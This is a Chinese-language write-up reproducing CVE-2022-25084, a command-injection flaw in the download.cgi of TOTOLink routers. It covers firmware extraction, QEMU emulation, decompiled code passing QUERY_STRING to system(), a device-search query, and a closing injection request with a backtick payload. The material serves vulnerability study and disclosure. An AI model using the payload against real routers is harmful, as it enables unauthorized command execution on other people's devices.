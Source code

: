 # TOTOLink 多个设备 download.cgi 远程命令执行漏洞 CVE-2022-25084

# TOTOLink 多个设备 download.cgi 远程命令执行漏洞 CVE-2022-25084

## 漏洞描述

TOTOLink 多个设备 download.cgi文件存在远程命令执行漏洞，攻击者通过构造特殊的请求可以获取服务器权限

## 漏洞影响

```
TOTOLink 多个设备
```

## 网络测绘

```
"totolink"
```

## 漏洞复现

下载路由器固件

![image-20220519180647333](/images/202205191806401.png)

使用binwalk分解固件

![image-20220519180700129](/images/202205191807189.png)

查看分解出来的文件

![image-20220519180713772](/images/202205191807833.png)

使用qemu搭建路由器

```
#set network
sudo brctl addbr virbr2
sudo ifconfig virbr2 192.168.6.1/24 up
sudo tunctl -t tap2
sudo ifconfig tap2 192.168.6.11/24 up
sudo brctl addif virbr2 tap2

qemu-system-mipsel -M malta -kernel vmlinux-3.2.0-4-4kc-malta -hda debian_wheezy_mipsel_standard.qcow2 -append "root=/dev/sda1" -netdev tap,id=tapnet,ifname=tap2,script=no -device rtl8139,netdev=tapnet -nographic
```

创建后在qemu里执行命令启动路由器

```
ifconfig eth0 192.168.6.11 up 
scp -r squashfs-root/ root@192.168.6.11:/root/    	
chroot ./squashfs-root/ /bin/sh
touch /var/run/lighttpd.pid
./bin/lighttpd -f ./lighttp/lighttpd.conf -m ./lighttp/lib
```

注意 `lighttpd.conf` 文件需要修改 `server.pid-file` 参数

![image-20220519180729455](/images/202205191807515.png)

启动后访问路由器页面

![image-20220519180743756](/images/202205191807814.png)

我们找到需要分析的文件目录 `squashfs-root/web_cste/cgi-bin`

![image-20220519180807271](/images/202205191808361.png)

分析 cgi文件 `downloadFile.cgi`

![image-20220519180821187](/images/202205191808273.png)

我们注意到其中的system执行命令

```
pcVar1 = getenv("QUERY_STRING");
memset(acStack1424,0,0x200);
memset(acStack912,0,0x200);
sprintf(acStack1424,"echo QUERY_STRING:%s >/tmp/download",pcVar1);
system(acStack1424);
```

其中 getenv 从请求Url中获取参数,传参给pcVar1，再通过下面的sprintf 赋值给 acStack1424 使用 system函数 进行命令执行

![image-20220519180833486](/images/202205191808559.png)

我们构造请求包控制 QUERY_STRING 参数来进行恶意命令执行

```
/cgi-bin/downloadFlile.cgi?payload=`ls>../cmd.txt`
```

![image-20220519180852180](/images/202205191808272.png)

